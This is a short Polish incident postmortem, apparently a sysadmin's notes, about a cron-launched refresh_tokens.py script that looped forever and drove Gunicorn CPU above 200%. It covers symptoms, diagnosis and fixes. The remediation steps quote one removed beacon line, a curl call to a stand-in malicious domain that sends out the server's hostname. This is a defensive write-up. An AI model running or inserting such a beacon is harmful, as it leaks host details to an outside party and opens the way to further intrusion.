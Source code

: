 # 💥 Incydent #002: Gunicorn zapętlony przez crona – CPU 200%+

## 🔍 Objawy
- Aplikacja odpowiada, ale użytkownicy nie mogą się zalogować
- Dashboard się ładuje, ale logowanie wisi / kręci się
- W `htop`/`top`: Gunicorn worker zużywa 100%+ CPU
- `df -h` w normie, `ss -tuln` – wszystko nasłuchuje
- `journalctl`, `systemctl`, `ping` – wszystko wygląda „OK”, ale system *dyszy*

## 💣 Przyczyna
- Skrypt `refresh_tokens.py` uruchamiany co 1 minutę przez `cron`
- Skrypt miał `while True` i w nieskończoność próbował odpytywać localhost
- Tworzył nowe zapętlenia – aż zużycie CPU wystrzeliło w kosmos
- Dodatkowo: miał linijkę z `curl` do zewnętrznego hosta (prawdopodobnie payload / beacon)

## 🔧 Rozwiązanie
1. Zidentyfikowano procesy przez `ps aux --sort=-%cpu`  
2. Tymczasowo zatrzymano workerów Gunicorna  
3. Zakomentowano skrypt w `crontab -e`  
4. Przywrócono oryginalny `refresh_tokens.py` z backupu  
5. Usunięto obcy kod zawierający `curl https://malicious.domain/track?id=$(hostname)`
6. Dodano logikę timeoutu oraz limit wywołań w skrypcie

## ✅ Wnioski
- Cron potrafi zniszczyć system po cichu, jeśli nie masz limitów i sanity-checków
- `ps aux`, `htop`, `strace` – to Twoi najlepsi przyjaciele przy „niby wszystko działa”
- Warto logować uruchomienia skryptów cron, nawet minimalnie
- Skrypt, który nie sprawdza stanu — może skończyć jako `fork bomb lite`

---


